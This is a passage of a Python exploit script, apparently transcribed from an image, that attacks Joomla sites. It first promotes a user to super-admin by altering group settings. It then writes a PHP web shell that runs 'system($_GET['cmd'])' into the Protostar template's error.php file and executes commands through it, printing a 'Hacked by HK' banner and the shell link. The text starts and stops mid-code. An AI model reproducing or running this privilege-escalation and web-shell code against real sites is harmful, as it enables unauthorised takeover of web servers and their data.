             print "[+] Now, you are super-admin!!!!!!!!!!!!!!!!" + "\n[+] Your super-admin account: \n[+] USERNAME: " + username + "\n[+] PASSWORD: " + password + "\n[+] Done!"
        else:
            print "[-] Sorry,exploit fail!"
        return sess


    def changeGroupDefault(url, sess, token):
        print("[+] Changing group")
        newdata = {
            'jform[title]': 'Public',
            'jform[parent_id]': 0,
            'task': 'group.apply',
            token: 1
        }
        newdata['task'] = 'group.apply'
        resp = sess.post(url + "/administrator/index.php?option=com_users&layout=edit&id=1", data=newdata,
                         verify=True)
        if 'jform[parent_id]' not in resp.text:
            print('[!] Maybe failed to change group...')
            return False
        else:
            print "[+] Done!"
        return True


    def rce(sess, url, cmd, token):
        filename = 'error.php'
        shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
        shdata_up = {
            'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
            'task': 'template.apply',
            token: '1',
            'jform[extension_id]': '506',
            'jform[filename]': '/' + filename
        }
        sess.post(shlink, data=shdata_up)
        path2shell = '/templates/protostar/error.php?cmd=' + cmd
        # print '[+] Shell is ready to use: ' + str(path2shell)
        print '[+] Checking:'
        shreq = sess.get(url + path2shell)
        shresp = shreq.text
        print shresp + '[+] Shell link: \n' + (url + path2shell)
        print '[+] Module finished.'


    def main():
        # Construct the argument parser
        ap = argparse.ArgumentParser()
        # Add the arguments to the parser
        ap.add_argument("-url", "--url", required=True,
                        help=" URL for your Joomla target")
        ap.add_argument("-u", "--username", required=True,
                        help="username")
        ap.add_argument("-p", "--password", required=True,
                        help="password")
        ap.add_argument("-usuper", "--usernamesuper", default="hk",
                        help="Super's username")
        ap.add_argument("-psuper", "--passwordsuper", default="12345678",
                        help="Super's password")